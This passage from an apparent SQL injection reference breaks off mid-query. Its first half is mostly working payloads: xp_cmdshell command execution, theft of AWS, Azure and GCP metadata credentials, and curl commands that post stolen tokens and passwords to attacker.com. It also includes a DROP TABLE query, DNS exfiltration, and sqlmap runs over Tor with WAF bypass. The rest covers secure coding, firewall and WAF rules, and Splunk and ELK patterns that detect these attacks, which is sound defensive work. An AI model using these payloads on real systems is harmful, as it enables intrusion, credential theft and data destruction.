-- Step 4: Exfiltrate via proxy logs (if CloudWatch logging enabled)
' ; SELECT @malicious_var-- (Logged by proxy)
```

#### Azure SQL Managed Instance

- **Azure SQL Managed Instance**:

  ```sql
  -- Exploit managed instance features
  '; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
  '; EXEC xp_cmdshell 'az vm list'; --
  ```

**Advanced Azure SQL Exploitation:**

```sql
-- Azure Active Directory authentication bypass
' ; SELECT SUSER_SNAME(), USER_NAME()--

-- Managed instance link exploitation
' ; SELECT * FROM sys.servers-- (Lists linked servers)
' ; EXEC ('SELECT @@version') AT [LinkedInstance]--

-- Azure Blob Storage integration
' ; CREATE EXTERNAL DATA SOURCE AzureStorage
    WITH (TYPE = BLOB_STORAGE, LOCATION = 'https://attacker.blob.core.windows.net/')--
' ; BULK INSERT users FROM 'malicious.csv'
    WITH (DATA_SOURCE = 'AzureStorage')--

-- Azure SQL Edge exploitation (IoT scenarios)
' ; EXEC sp_configure 'external scripts enabled', 1--
' ; EXEC sp_execute_external_script
    @language = N'Python',
    @script = N'import os; os.system("curl attacker.com")'--

-- Elastic pool resource exhaustion
' ; WHILE 1=1 BEGIN SELECT * FROM sys.objects; END-- (DoS)

-- Azure Synapse Analytics exploitation
' ; COPY INTO staging_table FROM 'https://attacker.com/payload.csv'
    WITH (FILE_TYPE = 'CSV')--

-- Managed identity token theft
' ; EXEC sp_execute_external_script
    @language = N'Python',
    @script = N'
      import urllib.request
      token = urllib.request.urlopen("http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/").read()
      print(token)
    '--
```

#### GCP Cloud SQL

- **GCP Cloud SQL**:
  ```sql
  -- Access Cloud SQL metadata
  ' UNION SELECT @@global.version_comment, @@hostname --
  ```

**Advanced GCP Cloud SQL Exploitation:**

```sql
-- Cloud SQL instance metadata
' UNION SELECT @@hostname, @@server_id, @@version--

-- GCP service account access via metadata server
' ; SELECT LOAD_FILE('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token')--

-- Cloud SQL flags enumeration
' UNION SELECT flag_name, flag_value FROM mysql.rds_configuration--

-- BigQuery federated query abuse (if configured)
' ; SELECT * FROM EXTERNAL_QUERY(
    "projects/PROJECT_ID/locations/LOCATION/connections/CONNECTION_ID",
    "SELECT * FROM sensitive_table;"
  )--

-- Cloud SQL Proxy bypass
' ; SELECT * FROM information_schema.PROCESSLIST-- (Enumerate proxy connections)

-- Cloud SQL replication configuration access
' UNION SELECT @@rpl_semi_sync_master_enabled, @@rpl_semi_sync_slave_enabled--

-- GCP Secret Manager access (via Cloud Functions trigger)
' UNION SELECT secret_data FROM cloud_functions.secrets--

-- Cloud SQL automatic backup access
' ; SELECT * FROM mysql.backup_history--
```

**Multi-Cloud SQLi Chain Example:**

```sql
-- Step 1: Determine cloud provider
' UNION SELECT @@hostname, @@version_comment--

-- Step 2: Access cloud metadata (provider-specific)
-- AWS:
' UNION SELECT LOAD_FILE('http://169.254.169.254/latest/dynamic/instance-identity/document')--
-- Azure:
' ; EXEC sp_execute_external_script @language = N'Python',
    @script = N'import urllib.request; print(urllib.request.urlopen("http://169.254.169.254/metadata/instance?api-version=2021-02-01", headers={"Metadata":"true"}).read())'--
-- GCP:
' UNION SELECT LOAD_FILE('http://metadata.google.internal/computeMetadata/v1/instance/?recursive=true')--

-- Step 3: Extract credentials
-- AWS IMDSv2 (requires token):
' ; CREATE TABLE temp(data LONGTEXT);
   LOAD DATA LOCAL INFILE '/dev/null' INTO TABLE temp;-- (Won't work, pivot to COPY TO PROGRAM)
-- Better approach for PostgreSQL:
' ; COPY (SELECT '') TO PROGRAM 'curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" > /tmp/token; curl -H "X-aws-ec2-metadata-token: $(cat /tmp/token)" http://169.254.169.254/latest/meta-data/iam/security-credentials/'--

-- Step 4: Exfiltrate to attacker infrastructure
' ; COPY (SELECT role_arn, access_key FROM extracted_creds) TO PROGRAM 'curl -X POST -d @- https://attacker.com/exfil'--
```

> [!WARNING]
> Cloud SQLi chains can lead to full infrastructure compromise. Always test egress filtering and metadata service access restrictions. Use IMDSv2 (AWS) and managed identity restrictions (Azure) to limit exposure.

#### Cloud Metadata Access via SQLi

- **AWS IMDSv2** (requires token, harder via SQLi):

  ```sql
  -- Older IMDSv1 still works in legacy environments
  ' UNION SELECT LOAD_FILE('http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name') --
  ```

- **Azure Instance Metadata**:
  ```sql
  ' UNION SELECT LOAD_FILE('http://169.254.169.254/metadata/instance?api-version=2021-02-01') --
  ```

**Complete Cloud Metadata Exploitation Matrix:**

| Cloud Provider | Metadata Endpoint | SQL Technique | Required Headers | Bypass Methods |
|----------------|-------------------|---------------|------------------|----------------|
| AWS IMDSv1 | 169.254.169.254 | LOAD_FILE / UTL_HTTP | None | Direct access |
| AWS IMDSv2 | 169.254.169.254 | COPY TO PROGRAM (token fetch) | X-aws-ec2-metadata-token | Token required, 2-step |
| Azure | 169.254.169.254 | LOAD_FILE / sp_OACreate | Metadata: true | Header injection needed |
| GCP | metadata.google.internal | LOAD_FILE / UTL_HTTP | Metadata-Flavor: Google | DNS rebinding possible |
| Oracle Cloud | 169.254.169.254 | LOAD_FILE | Authorization: Bearer Oracle | Token required |
| Alibaba Cloud | 100.100.100.200 | LOAD_FILE | None | Direct access |
| DigitalOcean | 169.254.169.254 | LOAD_FILE | None | Direct access |

**AWS IMDSv2 SQLi Bypass (PostgreSQL):**

```sql
-- Step 1: Fetch session token (IMDSv2 requirement)
'; COPY (SELECT '') TO PROGRAM '
  TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
    -H "X-aws-ec2-metadata-token-ttl-seconds: 21600");
  echo $TOKEN > /tmp/aws_token
'; --

-- Step 2: Use token to access metadata
'; COPY (SELECT '') TO PROGRAM '
  TOKEN=$(cat /tmp/aws_token);
  curl -H "X-aws-ec2-metadata-token: $TOKEN" \
    http://169.254.169.254/latest/meta-data/iam/security-credentials/ | \
  xargs -I {} curl -H "X-aws-ec2-metadata-token: $TOKEN" \
    http://169.254.169.254/latest/meta-data/iam/security-credentials/{} \
  | curl -X POST -d @- https://attacker.com/exfil
'; --
```

**Azure Managed Identity Theft:**

```sql
-- Method 1: Direct metadata access (requires Metadata header)
-- Not possible via LOAD_FILE (no header support), use stored procedures:
'; DECLARE @url VARCHAR(255) = ''http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/'';
   DECLARE @obj INT;
   EXEC sp_OACreate ''MSXML2.ServerXMLHTTP'', @obj OUT;
   EXEC sp_OAMethod @obj, ''open'', NULL, ''GET'', @url, FALSE;
   EXEC sp_OAMethod @obj, ''setRequestHeader'', NULL, ''Metadata'', ''true'';
   EXEC sp_OAMethod @obj, ''send'';
   -- Exfiltrate response
'; --

-- Method 2: Python-based (Azure SQL Edge or external script)
'; EXEC sp_execute_external_script
    @language = N''Python'',
    @script = N''
import urllib.request
req = urllib.request.Request(
    "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/",
    headers={"Metadata": "true"}
)
token = urllib.request.urlopen(req).read()
urllib.request.urlopen("https://attacker.com/exfil", data=token)
    ''--
```

**GCP Service Account Token Theft:**

```sql
-- Method 1: Direct access (PostgreSQL COPY TO PROGRAM)
'; COPY (SELECT '') TO PROGRAM '
  curl -H "Metadata-Flavor: Google" \
    "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" \
  | curl -X POST -d @- https://attacker.com/exfil
'; --

-- Method 2: MySQL LOAD_FILE with DNS exfiltration
' UNION SELECT LOAD_FILE(
    CONCAT(
        'http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token?recursive=true&alt=text'
    )
) INTO OUTFILE '/tmp/token'; --

-- Method 3: Oracle UTL_HTTP
' ; SELECT UTL_HTTP.REQUEST(
    'http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token',
    NULL,
    'Metadata-Flavor: Google'
  ) FROM dual; --
```

> [!TIP]
> Cloud metadata exploitation is the primary path from SQLi to full infrastructure compromise. Implement network-level metadata service restrictions (AWS: IMDSv2 enforcement, Azure: Application Gateway, GCP: Private Google Access).

## Methodologies

### Tools

#### Automated SQLi Detection & Exploitation

- **SQLmap 1.8+**: Now detects JSON-based, GraphQL, and WebSocket SQLi automatically, plus smarter tamper chaining
- **GraphQLmap**: CLI tool for fuzzing and exploiting GraphQL resolver injections
- **NoSQLMap**: NoSQL database testing
- **Burp Suite Professional**: Enhanced SQL injection scanner with ML-based detection
- **Ghauri**: Advanced blind SQL injection tool (faster than SQLmap for time-based)
- **SQLiScanner**: Automated CI/CD integration for SQLi testing

**SQLmap 1.8+ Advanced Usage:**

```bash
# Basic scan with JSON detection
sqlmap -u "https://target.com/api/users" --json='{"id":"1"}' --dbs

# GraphQL endpoint scanning
sqlmap -u "https://target.com/graphql" --method=POST \
  --data='{"query":"{ user(id:\"1\") { name } }"}' \
  --headers="Content-Type: application/json" --dbs

# WebSocket scanning (requires --websocket flag in development builds)
sqlmap -u "wss://target.com/api/search" --websocket \
  --data='{"action":"search","query":"test"}' --dbs

# Advanced tamper script chaining
sqlmap -u "https://target.com/api?id=1" --tamper=between,space2comment,charencode \
  --random-agent --delay=2 --dbs

# SOCKS proxy + Tor for anonymity
sqlmap -u "https://target.com/api?id=1" --tor --tor-type=SOCKS5 \
  --check-tor --dbs

# API key authentication
sqlmap -u "https://target.com/api/users?id=1" \
  --headers="Authorization: Bearer TOKEN" --dbs

# OAuth2 token refresh automation
sqlmap -u "https://target.com/api?id=1" \
  --auth-type=Bearer --auth-cred="token.json" --dbs

# Second-order injection testing
sqlmap -u "https://target.com/register" --data="username=test&email=test@test.com" \
  --second-url="https://target.com/profile" --second-req="profile_request.txt"

# DNS exfiltration (out-of-band)
sqlmap -u "https://target.com/api?id=1" --dns-domain="attacker.com" \
  --technique=E --dbs

# WAF bypass with machine learning
sqlmap -u "https://target.com/api?id=1" --identify-waf \
  --tamper=between,space2comment --hpp --skip-waf --dbs

# Cloud-specific testing (AWS RDS detection)
sqlmap -u "https://target.com/api?id=1" --banner --hostname --is-dba \
  --sql-query="SELECT @@version_comment" --dbs

# Multithreading for large parameter sets
sqlmap -m urls.txt --batch --threads=10 --dbs

# Custom injection point marking
sqlmap -u "https://target.com/api" --data='{"filter":{"name":"test*"}}' \
  --json --prefix='{"filter":{"name":"' --suffix='"}}' --dbs

# Risk and level escalation
sqlmap -u "https://target.com/api?id=1" --level=5 --risk=3 --dbs
```

**Ghauri Advanced Usage:**

```bash
# Basic time-based blind SQLi (faster than SQLmap)
ghauri -u "https://target.com/api?id=1" --dbs

# Custom payloads
ghauri -u "https://target.com/api?id=1" --payload="1' AND SLEEP(5)--" --dbs

# Boolean-based blind with custom true/false detection
ghauri -u "https://target.com/api?id=1" --string="Welcome" --not-string="Error" --dbs

# Batch mode with aggressive timing
ghauri -u "https://target.com/api?id=1" --batch --threads=5 --timeout=10 --dbs

# Custom DBMS (if known)
ghauri -u "https://target.com/api?id=1" --dbms=mysql --dbs
```

**GraphQLmap Usage:**

```bash
# Introspection query
graphqlmap -u https://target.com/graphql -i

# Dump schema
graphqlmap -u https://target.com/graphql --dump-schema

# SQLi fuzzing on specific field
graphqlmap -u https://target.com/graphql --fuzz --field="user(id:\"<inject>\")"

# Batch injection testing
graphqlmap -u https://target.com/graphql --batch-size=10 --fuzz

# Custom headers
graphqlmap -u https://target.com/graphql -H "Authorization: Bearer TOKEN" --fuzz
```

> [!NOTE]
> Always validate automated tool findings manually. False positives are common, especially with modern WAFs and rate limiting.

#### Manual Testing Tools

- **Burp Suite**: Request manipulation and testing
- **OWASP ZAP**: Traffic interception and testing
- **FuzzDB/SecLists**: Attack payload collections
- **Havij**: Automated SQL injection tool with GUI
- **wscat**: WebSocket testing for SQLi in real-time connections
- **Postman/Insomnia**: API endpoint testing with GraphQL support

**Advanced Manual Testing Toolkit:**

```bash
# Burp Suite extension: SQLiPy Sqlmap Integration
# Install: Extender → BApp Store → SQLiPy Sqlmap Integration

# Burp Collaborator for OOB detection
# Use Burp Collaborator payloads in SQLi tests:
' UNION SELECT UTL_HTTP.REQUEST('http://burp-collaborator-subdomain.com/'||(SELECT password FROM users)) FROM dual--

# Custom Burp Intruder payloads
# Load SecLists SQL injection payloads:
/opt/SecLists/Fuzzing/SQLi/Generic-SQLi.txt

# ffuf for parameter fuzzing
ffuf -u "https://target.com/api?FUZZ=1" -w parameters.txt -mc 200

# wfuzz for injection testing
wfuzz -z file,sqli-payloads.txt -u "https://target.com/api?id=FUZZ"

# httpx + nuclei for automated scanning
cat urls.txt | httpx -silent | nuclei -t sqli-*

# wscat for WebSocket SQLi testing
wscat -c wss://target.com/api
> {"action":"search","query":"test' OR 1=1--"}

# grpcurl for gRPC injection testing
grpcurl -d '{"id":"1'\'' OR 1=1--"}' target.com:443 api.UserService/GetUser

# postman-collection-runner for CI/CD SQLi testing
newman run sqli-tests.json -e production.json --reporters cli,json
```

### Testing Methodology

#### Reconnaissance Phase

1. **Identify Entry Points**:
   - Map all user input parameters
   - Check HTTP POST/GET parameters
   - Examine cookies and HTTP headers
   - Review hidden form fields
   - Analyze API endpoints
   - Test WebSocket connections
   - Inspect GraphQL schema
   - Enumerate gRPC services

2. **Determine Database Type**:
   - Observe error messages
   - Test database-specific syntax
   - Check HTTP headers and response patterns
   - Banner grabbing via version queries
   - Timing analysis (different DBMS have different sleep functions)

> [!TIP]
> Use fingerprinting queries to quickly identify the database type. This saves time by focusing on database-specific payloads early in testing.

#### Exploitation Phase

1. **Initial Testing**:

   ```sql
   # Test for errors
   parameter=test'
   parameter=test"
   parameter=test`

   # Boolean tests
   parameter=test' OR '1'='1
   parameter=test' AND '1'='2

   # UNION tests
   parameter=test' UNION SELECT 1-- -
   parameter=test' UNION SELECT 1,2-- -
   parameter=test' UNION SELECT 1,2,3-- -
   ```

2. **UNION Attack Technique**:

   ```sql
   # Find the number of columns
   ' UNION SELECT NULL-- -
   ' UNION SELECT NULL,NULL-- -
   ' UNION SELECT NULL,NULL,NULL-- -

   # Identify string columns
   ' UNION SELECT 'a',NULL,NULL-- -
   ' UNION SELECT NULL,'a',NULL-- -
   ' UNION SELECT NULL,NULL,'a'-- -

   # Extract data
   ' UNION SELECT username,password,NULL FROM users-- -
   ```

3. **Blind SQLi Exploitation**:

   ```sql
   # Boolean-based
   ' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1)='a'-- -

   # Time-based
   ' AND (SELECT CASE WHEN (username='admin') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)-- -
   ```

4. **Database Enumeration**:
   - Determine database version
   - Extract table names
   - Extract column names
   - Extract data

5. **Privilege Escalation**:
   - Identify database user permissions
   - Access sensitive tables
   - Attempt file system access
   - Try command execution

**Advanced Exploitation Scenarios:**

```sql
-- Stacked queries (MSSQL, PostgreSQL, Oracle)
' ; DROP TABLE users--

-- Out-of-band data exfiltration (DNS)
' UNION SELECT UTL_INADDR.GET_HOST_ADDRESS('data.'||password||'.attacker.com') FROM users--

-- Out-of-band HTTP exfiltration
' ; COPY (SELECT password FROM users) TO PROGRAM 'curl http://attacker.com?data=$(cat)'--

-- Polyglot injection (works in multiple contexts)
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

-- JSON-based blind SQLi
' AND (SELECT JSON_EXTRACT(password, '$') FROM users LIMIT 1) LIKE 'a%'--

-- Error-based double query injection
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT password FROM users LIMIT 1), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) y)--

-- XML-based extraction (MSSQL)
' UNION SELECT 1, (SELECT TOP 1 password FROM users FOR XML RAW)--

-- Conditional error-based (Oracle)
' AND (SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE rownum=1)='a'--
```

### Cheatsheets by Database

#### MySQL

```sql
# Version
SELECT @@version

# Comments
-- Comment
# Comment
/*Comment*/

# String Concatenation
CONCAT('a','b')

# Substring
SUBSTRING('abc',1,1)

# Conditional
IF(1=1,'true','false')

# Time Delay
SLEEP(5)

# Data Sources
information_schema.tables
information_schema.columns
```

#### MSSQL

```sql
# Version
SELECT @@version

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'+'b'

# Substring
SUBSTRING('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
WAITFOR DELAY '0:0:5'

# Data Sources
information_schema.tables
information_schema.columns
sys.tables
sys.columns
```

#### Oracle

```sql
# Version
SELECT banner FROM v$version

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'||'b'

# Substring
SUBSTR('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
DBMS_PIPE.RECEIVE_MESSAGE('RDS',5)

# Data Sources
all_tables
all_tab_columns
```

#### PostgreSQL

```sql
# Version
SELECT version()

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'||'b'

# Substring
SUBSTRING('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
pg_sleep(5)

# Data Sources
information_schema.tables
information_schema.columns
```

## Remediation Recommendations

- **Prepared Statements/Parameterized Queries**:

  ```java
  // Unsafe
  String query = "SELECT * FROM users WHERE username = '" + username + "'";

  // Safe (Java PreparedStatement)
  PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE username = ?");
  stmt.setString(1, username);
  ```

- **PHP PDO note:** When using PDO you must disable emulated prepares, otherwise parameters are substituted client-side and JSON operators can still be injectable.

  ```php
  $pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
  ```

- **ORM Frameworks**: Use secure ORM frameworks with proper parameter binding
- **Input Validation**: Server-side validation with strong type checking
- **Stored Procedures**: Use properly coded stored procedures
- **Least Privilege**: Restrict database account permissions
- **WAF Implementation**: Deploy a web application firewall
- **Error Handling**: Prevent detailed error messages from being displayed to users
- **Database Activity Monitoring (DAM)**: Track and alert on suspicious database activity
  - Tools: Imperva DAM, IBM Guardium, Oracle Audit Vault
  - Cloud-native: AWS RDS Enhanced Monitoring, Azure SQL Auditing, GCP Cloud SQL Insights
- **Runtime Application Self-Protection (RASP)**: Detect and block SQLi at runtime
  - Tools: Contrast Security, Sqreen (Datadog), Hdiv Security
- **ML-based WAF**: Modern WAF with machine learning detection
  - Cloudflare WAF (ML rules)
  - AWS WAF Fraud Control Account Takeover Prevention
  - Signal Sciences (Fastly)
- **Row-Level Security (RLS)**: Enforce per-tenant/user data access in the database layer
- **Outbound controls**: Block DB servers from making outbound DNS/HTTP to limit OOB exfiltration
  - Implement egress filtering in security groups/firewalls
  - Use private subnets for database instances
- **Strong typed parameters**: For JSON/ARRAY params ensure explicit casts (e.g., `$1::jsonb`) to avoid operator confusion
- **API Gateway Schema Validation**: Enforce strict input validation at gateway level
  - AWS API Gateway Request Validators
  - Kong Request Validator plugin
  - Apigee JSON Threat Protection
- **Query Monitoring & Anomaly Detection**:
  ```python
  # Example: Monitor for suspicious patterns
  if re.search(r"(UNION|SELECT|INSERT|UPDATE|DELETE).*--", query, re.IGNORECASE):
      alert_security_team()
      block_request()
  ```
- **Container Security Context**: For containerized databases
  ```yaml
  # Kubernetes: Restrict service account access
  automountServiceAccountToken: false
  securityContext:
    readOnlyRootFilesystem: true
    runAsNonRoot: true
  ```

**Extended Remediation Best Practices:**

> [!WARNING]
> Defense in depth is critical. No single control prevents all SQLi attacks. Implement multiple layers of protection.

### Secure Coding Practices by Language/Framework

**Node.js/Express:**
```javascript
// BAD: String concatenation
app.get('/user', async (req, res) => {
  const query = `SELECT * FROM users WHERE id = ${req.query.id}`;
  const result = await db.query(query);
});

// GOOD: Parameterized query (pg library)
app.get('/user', async (req, res) => {
  const query = 'SELECT * FROM users WHERE id = $1';
  const result = await db.query(query, [req.query.id]);
});

// GOOD: Sequelize ORM
app.get('/user', async (req, res) => {
  const user = await User.findOne({
    where: { id: req.query.id } // Auto-parameterized
  });
});

// GOOD: Input validation + parameterization
const { param, validationResult } = require('express-validator');
app.get('/user/:id',
  param('id').isInt().toInt(),
  async (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }
    const result = await db.query('SELECT * FROM users WHERE id = $1', [req.params.id]);
  }
);
```

**Python/Django:**
```python
# BAD: String formatting
def get_user(request):
    user_id = request.GET['id']
    query = f"SELECT * FROM users WHERE id = {user_id}"
    cursor.execute(query)

# GOOD: Parameterized query (Django ORM)
def get_user(request):
    user_id = request.GET['id']
    user = User.objects.filter(id=user_id).first()

# GOOD: Raw SQL with parameters
def get_user(request):
    user_id = request.GET['id']
    User.objects.raw('SELECT * FROM users WHERE id = %s', [user_id])

# GOOD: Input validation
from django.core.validators import validate_integer
def get_user(request):
    user_id = request.GET['id']
    try:
        validate_integer(user_id)
        user = User.objects.filter(id=int(user_id)).first()
    except ValidationError:
        return HttpResponse(status=400)
```

**Java/Spring:**
```java
// BAD: String concatenation
@GetMapping("/user")
public User getUser(@RequestParam String id) {
    String query = "SELECT * FROM users WHERE id = " + id;
    return jdbcTemplate.queryForObject(query, new UserRowMapper());
}

// GOOD: JdbcTemplate with parameters
@GetMapping("/user")
public User getUser(@RequestParam String id) {
    String query = "SELECT * FROM users WHERE id = ?";
    return jdbcTemplate.queryForObject(query, new Object[]{id}, new UserRowMapper());
}

// GOOD: JPA/Hibernate
@GetMapping("/user")
public User getUser(@RequestParam Long id) {
    return userRepository.findById(id).orElse(null);
}

// GOOD: Input validation with Bean Validation
@GetMapping("/user")
public User getUser(@RequestParam @Min(1) @Max(999999) Long id) {
    return userRepository.findById(id).orElse(null);
}
```

**C#/.NET:**
```csharp
// BAD: String concatenation
public User GetUser(int id) {
    string query = $"SELECT * FROM users WHERE id = {id}";
    return db.Query<User>(query).FirstOrDefault();
}

// GOOD: Parameterized query (Dapper)
public User GetUser(int id) {
    string query = "SELECT * FROM users WHERE id = @Id";
    return db.Query<User>(query, new { Id = id }).FirstOrDefault();
}

// GOOD: Entity Framework
public User GetUser(int id) {
    return context.Users.Find(id);
}

// GOOD: SQL injection prevention with LINQ
public User GetUser(int id) {
    return context.Users.Where(u => u.Id == id).FirstOrDefault();
}
```

**PHP:**
```php
// BAD: String concatenation
$user_id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = $user_id";
$result = mysqli_query($conn, $query);

// GOOD: MySQLi prepared statement
$user_id = $_GET['id'];
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $user_id);
$stmt->execute();
$result = $stmt->get_result();

// GOOD: PDO prepared statement
$user_id = $_GET['id'];
$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$stmt->execute(['id' => $user_id]);
$result = $stmt->fetch();

// GOOD: Laravel Eloquent ORM
$user = User::find($request->input('id'));
```

**Ruby on Rails:**
```ruby
# BAD: String interpolation
user_id = params[:id]
User.where("id = #{user_id}")

# GOOD: Parameterized query
user_id = params[:id]
User.where("id = ?", user_id)

# GOOD: Hash conditions (auto-parameterized)
user_id = params[:id]
User.where(id: user_id)

# GOOD: Strong parameters + validation
def user_params
  params.require(:user).permit(:id)
end

def show
  @user = User.find(user_params[:id])
end
```

### Infrastructure-Level Protections

**Network Segmentation:**
```yaml
# AWS Security Group (database tier)
SecurityGroupIngress:
  - IpProtocol: tcp
    FromPort: 5432
    ToPort: 5432
    SourceSecurityGroupId: !Ref AppSecurityGroup # Only allow app tier
    Description: "PostgreSQL from app tier only"

SecurityGroupEgress:
  - IpProtocol: -1
    CidrIp: 127.0.0.1/32 # Block all outbound (prevents OOB exfiltration)
    Description: "Block outbound traffic"
```

**Database Firewall Rules:**
```sql
-- PostgreSQL pg_hba.conf
hostssl all all 10.0.1.0/24 scram-sha-256 # Only app subnet
host    all all 0.0.0.0/0    reject        # Deny all others

-- MySQL firewall rules (Enterprise)
INSTALL PLUGIN mysql_firewall SONAME 'firewall.so';
SET GLOBAL mysql_firewall_mode = ON;
CALL mysql.sp_set_firewall_mode('appuser@%', 'RECORDING');
-- After recording legitimate queries:
CALL mysql.sp_set_firewall_mode('appuser@%', 'PROTECTING');
```

**Web Application Firewall (WAF) Rules:**
```json
// AWS WAF SQLi rule set
{
  "Name": "SQLiProtection",
  "Priority": 1,
  "Statement": {
    "OrStatement": {
      "Statements": [
        {
          "SqliMatchStatement": {
            "FieldToMatch": {
              "AllQueryArguments": {}
            },
            "TextTransformations": [
              {"Priority": 0, "Type": "URL_DECODE"},
              {"Priority": 1, "Type": "HTML_ENTITY_DECODE"}
            ]
          }
        },
        {
          "SqliMatchStatement": {
            "FieldToMatch": {
              "Body": {}
            },
            "TextTransformations": [
              {"Priority": 0, "Type": "URL_DECODE"},
              {"Priority": 1, "Type": "HTML_ENTITY_DECODE"}
            ]
          }
        }
      ]
    }
  },
  "Action": {"Block": {}},
  "VisibilityConfig": {
    "SampledRequestsEnabled": true,
    "CloudWatchMetricsEnabled": true,
    "MetricName": "SQLiProtection"
  }
}
```

**RASP (Runtime Application Self-Protection):**
```javascript
// Contrast Security RASP example
const contrast = require('@contrast/agent');
contrast({
  apiKey: process.env.CONTRAST_API_KEY,
  serviceKey: process.env.CONTRAST_SERVICE_KEY,
  userName: process.env.CONTRAST_USERNAME,
  protect: {
    rules: {
      'sql-injection': {
        mode: 'block', // Block detected SQLi attempts
        confidence: 'high'
      }
    }
  }
});
```

### Detection & Monitoring

#### SIEM/Log Analysis Queries

**Splunk:**

```spl
index=web sourcetype=access_combined
| regex _raw="(%27)|(\\')|(\\-\\-)|((%3D)|(=))[^\\n]*((%27)|(\\')|(\\-\\-)|(\\%3D))"
| eval suspected_sqli=if(match(_raw, "(?i)(union|select|insert|update|delete|drop|create|alter|exec|execute)"), "high", "low")
| where suspected_sqli="high"
| table _time, src_ip, uri, user_agent, status
```

**Advanced Splunk SQLi Detection:**

```spl
# Comprehensive SQLi detection with scoring
index=web_logs sourcetype=access_*
| rex field=uri "(?<sqli_indicators>('|\"|--|;|\/\*|\*\/|xp_|sp_|exec|union|select|insert|update|delete|drop|create|alter|sleep|waitfor|benchmark|load_file|outfile|dumpfile|into|from|where|and|or|order\s+by|group\s+by))"
| eval sqli_score=0
| eval sqli_score=if(match(uri, "(?i)(union\s+select)"), sqli_score+10, sqli_score)
| eval sqli_score=if(match(uri, "(?i)(sleep\(|waitfor\s+delay|benchmark\()"), sqli_score+8, sqli_score)
| eval sqli_score=if(match(uri, "(?i)(load_file|into\s+outfile|into\s+dumpfile)"), sqli_score+9, sqli_score)
| eval sqli_score=if(match(uri, "(?i)(xp_cmdshell|sp_oacreate)"), sqli_score+10, sqli_score)
| eval sqli_score=if(match(uri, "(?i)('\s+or\s+'1'='1|'\s+or\s+1=1)"), sqli_score+7, sqli_score)
| eval sqli_score=if(match(uri, "(?i)(--|;|\/\*|\*\/)"), sqli_score+3, sqli_score)
| eval sqli_score=if(match(uri, "(?i)(information_schema|sys\.tables|all_tables)"), sqli_score+6, sqli_score)
| where sqli_score >= 7
| stats count, values(uri) as uris, values(user_agent) as user_agents by src_ip, sqli_score
| sort -sqli_score

# Time-based blind SQLi detection (anomalous response times)
index=web_logs sourcetype=access_*
| transaction uri, src_ip maxspan=30s
| where duration > 5
| regex uri="(?i)(sleep|waitfor|benchmark|pg_sleep)"
| table _time, src_ip, uri, duration, status
| sort -duration

# WebSocket SQLi detection
index=websocket_logs
| spath input=message
| regex message="(?i)(union|select|insert|update|delete|'|\"|--|;)"
| table _time, src_ip, connection_id, message

# GraphQL SQLi detection
index=api_logs sourcetype=graphql
| spath input=query
| regex query="(?i)(union|select|insert|'|\"|--)"
| table _time, src_ip, query, variables

# OOB (Out-of-Band) DNS exfiltration detection
index=dns_logs
| rex field=query "(?<suspicious_subdomain>([a-f0-9]{32,}|[A-Za-z0-9+/]{20,}=*)\.)"
| where len(suspicious_subdomain) > 32
| stats count by query, src_ip
| where count < 5
```

**ELK/OpenSearch:**

```json
{
  "query": {
    "bool": {
      "should": [
        {
          "regexp": { "request.uri": ".*(union|select|insert|update|delete).*" }
        },
        { "match": { "request.body": "' OR 1=1" } }
      ]
    }
  }
}
```

**Advanced ELK/OpenSearch SQLi Detection:**

```json
{
  "query": {
    "bool": {
      "should": [
        {
          "regexp": {
            "request.uri": {
              "value": ".*(union\\s+select|sleep\\(|waitfor\\s+delay|benchmark\\(|load_file|into\\s+outfile).*",
              "flags": "ALL",
              "case_insensitive": true
            }
          }
        },
        {
          "regexp": {
            "request.body": {
              "value": ".*('\\s+or\\s+'1'='1|'\\s+or\\s+1=1|\"\\s+or\\s+\"1\"=\"1).*",
              "case_insensitive": true
            }
          }
        },
        {
          "query_string": {
            "query": "(xp_cmdshell OR sp_oacreate OR pg_read_file OR UTL_HTTP) AND (request.uri:* OR request.body:*)",
            "default_operator": "AND"
          }
        }
      ],
      "minimum_should_match": 1,
      "filter": [
        {
          "range": {
            "@timestamp": {
              "gte": "now-1h"
            }
          }
        }
      ]
    }
  },
  "aggs": {
    "top_attackers": {
      "terms": {
        "field": "source.ip",
        "size": 10
      },
      "aggs": {
        "attack_patterns": {
          "terms": {
            "field": "request.uri.keyword",
            "size": 5
          }
        }
      }
    }
  }
}

# Anomaly detection for time-based blind SQLi
{
  "query": {
    "bool": {
      "must": [
        {
          "range": {
            "response_time_ms": {
              "gte": 5000
            }
          }
        },
        {
          "regexp": {
